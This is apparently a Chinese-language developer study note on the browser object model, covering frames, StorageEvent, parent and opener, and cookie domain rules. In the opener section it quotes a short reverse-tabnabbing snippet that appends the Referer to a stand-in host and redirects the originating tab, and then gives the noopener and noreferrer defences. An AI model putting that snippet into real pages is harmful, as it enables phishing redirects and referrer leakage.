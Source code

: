```yaml
---
title: BOM相关
tags: 浏览器
---
```

- window.length: 指页面中所包含的框架数量;
- window === window.frames
- frameElement属性是框架窗口中用来获取( iframe)框架节点自身用的: window.frames[0].frameElement.src
### StorageEvent
> Storage实例对象修改数据的时候会触发一个 StorageEvent事件，这个事件有些特别，当
事件触发后，消息会发送到打开的所有当前网站的其他页面中(当然要在同一个浏览器中)， 至于是否会发送给当前页面，不同的浏览器有不同的处理方法。这里测试的结果是 IE会发 送给当前页面和所有当前网站的其他页面，而 Firefox, Chrome 以及 Opera 只发送给当前网 站的其他页面，而不会发送给当前页面。
### parent 与 opener

```
在说 opener 之前，可以先聊聊 iframe中的 parent。 
我们知道，在 iframe 中提供了一个用于父子页面交互的对象，叫做 window.parent， 
我们可以通过 window.parent 对象来从框架中的页面访问父级页面的 window。 
opener 与 parent 一样，只不过是用于 a target="_blank" 在新标签页打开的页面的。  
通过 a target="_blank" 打开的页面，可以直接使用 window.opener 来访问来源页面的 window 对象。  
浏览器提供了完整的跨域保护，在域名相同时，parent 对象和 opener 对象实际上就直接是上一级的 window 对象；  
而当域名不同时，parent 和 opener 则是经过包装的一个 global 对象。  
这个 global 对象仅提供非常有限的属性访问，并且在这仅有的几个属性中，大部分也都是不允许访问的（访问会直接抛出 DOMException）。  
在iframe 中，提供了一个 sandbox 属性用于控制框架中的页面的权限，因此即使是同域，也可以控制 iframe 的安全性。  

用户点击了这个链接，在新的标签页打开了这个网站。这个网站可以通过 HTTP Header 中的 Referer 属性来判断用户的来源。  
并且，这个网站上包含着类似于这样的 JavaScript 代码：

const url = encodeURIComponent('{{header.referer}}');
window.opener.location.replace('https://a.fake.site/?' + url);
上面的攻击步骤是在跨域的情况下的，在跨域情况下，opener 对象和 parent 一样，是受到限制的，  
仅提供非常有限的属性访问，并且在这仅有的几个属性中，
大部分也都是不允许访问的（访问会直接抛出 DOMException）。  

但是与 parent 不同的是，在跨域的情况下，opener 仍然可以调用 location.replace 方法而 parent 则不可以。


iframe中有 sandbox 属性，而链接，则可以使用下面的办法：
1. Referrer Policy 和 noreferrer
上面的攻击步骤中，用到了 HTTP Header 中的 Referer 属性，实际上可以在 HTTP 的响应头中增加 Referrer Policy 头来保证来源隐私安全。
Referrer Policy 需要修改后端代码来实现，而在前端，也可以使用 a 标签的 rel 属性来指定 rel="noreferrer" 来保证来源隐私安全。
2. noopener
为了安全，现代浏览器都支持在 a 标签的 rel 属性中指定 rel="noopener"，
这样，在打开的新标签页中，将无法再使用 opener 对象了，它为设置为了 null。
如果网站使用了 a target="_blank"，那么新打开的标签页的性能将会影响到当前页面。
此时如果新打开的页面中执行了一个非常庞大的 JavaScript 脚本，那么原始标签页也会受到影响，会出现卡顿的现象（当然不至于卡死）。
而如果在链接中加入了 noopener，则此时两个标签页将会互不干扰，使得原页面的性能不会受到新页面的影响。
```
### 设置domain时，前面带点‘.’和不带点‘.’区别
```
带点：任何 subdomain 都可以访问，包括父 domain
不带点：只有完全一样的域名才能访问，subdomain 不能（但在 IE 下比较特殊，它支持 subdomain 访问）
新的规范中，显式设置 domain 时，如果 value 最前面带点，则浏览器处理时会将这个点去掉，
所以最后浏览器存的就是没有点的（注意：但目前大多数浏览器并未全部这么实现）
```